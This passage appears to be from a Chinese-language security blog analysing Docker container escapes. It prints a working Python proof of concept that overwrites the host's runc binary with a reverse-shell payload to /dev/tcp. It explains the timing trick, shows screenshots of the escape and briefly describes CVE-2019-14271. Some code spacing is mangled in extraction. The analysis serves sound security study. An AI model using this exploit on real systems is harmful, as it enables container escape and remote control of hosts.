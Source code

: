 漏洞的POC如下：

```
#! /proc/self/exe
import os
import time

pid = os.getpid()+1

whileTrue:
try:
        exe_name = os.readlink('/proc/%d/exe'%pid)
break
exceptOSError:
pass

if'runc'in exe_name:
print exe_name
    fp =open('/proc/%d/exe'%pid,'r')
    fd = fp.fileno()

    time.sleep(0.5)
    fp2 =open("/proc/self/fd/%d"%fd,'w')
    pay ="#!/bin/shnbash -i &gt;&amp; /dev/tcp/127.0.0.1/7000 0&gt;&amp;1"
    fp2.write(pay)
else:
print"ero:"+ exe_name
```

脚本其实很简单。首先是死循环监控是否有runc进程进入容器，检测方式是使用readlink检查/proc/`{`PID`}`/exe软链接指向的文件名中是否有runc。值得一提的是，/proc/`{`PID`}`/exe文件并不能以写的模式打开，只能以只读模式打开。不过对于所有打开的文件描述符，都会在/proc/self/fd文件夹下存在一个与之对应的软链接，该文件是可以以写模式打开并写入的。所以POC中使用了两次open，第一次以读模式打开runc的exe软链接。第二次再以写模式打开自身fd下对应的软链接进行写入即可实现对runc程序文件本身的写入。

除此之外，由于利用的时间窗口是在runc进入容器与执行exec之间。时间窗口很小，很难利用成功。为此，需要扩大利用的时间窗口。这里利用到Linux Shebang的特性。准备一个可执行文件，开头写入#! /proc/self/exe。这样runc 在exec该文件时，实际就会执行/proc/self/exe这个程序，也就是runc本身。如此一来exe还是指向runc文件，便可以增大时间窗口。由于POC文件本身也是一个脚本文件，所以直接将Shebang写在POC中，可以省掉一个文件。

下面来实际测试一下，首先启动一个Docker容器。

[![](https://p4.ssl.qhimg.com/t0187e995dded7ba0be.png)](https://p4.ssl.qhimg.com/t0187e995dded7ba0be.png)

并在容器中执行POC脚本。

[![](https://p0.ssl.qhimg.com/t017f8de00a70e5467f.png)](https://p0.ssl.qhimg.com/t017f8de00a70e5467f.png)

接着只需要用docker exec执行poc.py即可。可以看到runc已经被修改。下一次docker运行的时候，就会执行脚本内容反弹shell。

[![](https://p0.ssl.qhimg.com/t01579d7caf2088a9eb.png)](https://p0.ssl.qhimg.com/t01579d7caf2088a9eb.png)

**CVE-2019-14271**

CVE-2019-14271的评分为7.5。该漏洞的产生原因是在使用docker cp从docker中拷贝文件时。Docker的docker-tar进程会chroot到容器目录下并且加载libnss.so模块。而由于docker-tar本身并没有被Docker容器限制。攻击者可以通过替换libnss.so的方式得到在容器外宿主机执行任意代码的机会[<sup>[5]</sup>](https://zhuanlan.zhihu.com/p/152052618#ref_5)。
